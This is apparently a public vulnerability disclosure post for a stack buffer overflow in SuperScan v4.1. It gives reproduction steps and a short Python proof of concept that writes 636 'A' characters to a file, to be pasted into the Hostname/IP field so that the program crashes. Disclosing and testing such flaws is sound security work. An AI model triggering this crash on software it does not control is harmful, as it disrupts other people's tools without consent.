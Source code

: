 ```yaml
---
layout: post
title: SuperScan v4.1 - Stack Buffer Overflow (PoC)
date: 2023-09-18
category: exploit
---
```


# Exploit Title: SuperScan v4.1 - Stack Buffer Overflow (PoC)
# Discovered by: Ahmet Ümit BAYRAM
# Discovered Date: 18.09.2023
# Vendor: Foundstone Inc
# Software Link: https://delivery2.filecroco.com/kits_6/superscan-4.1.zip
# Tested Version: v4.1 (latest)
# Tested on: Windows 2019 Server 64bit

### Steps to Reproduce

1. Open the SuperScan application.
2. Paste the content of `poc.txt` into the **Hostname / IP** box.
3. Click the arrow button next to the box.
4. The application crashes due to a buffer overflow.

### Proof of Concept (PoC)

The following Python script generates a `poc.txt` file containing the payload. When loaded into the **Hostname / IP** field, it triggers a buffer overflow and crashes the application.

```python
#!/usr/bin/python

poc = 'A' * 636

try:
    with open("poc.txt", "w") as file:
        file.write(poc)
    print("POC is created")
except Exception as e:
    print("POC is not created:", e)

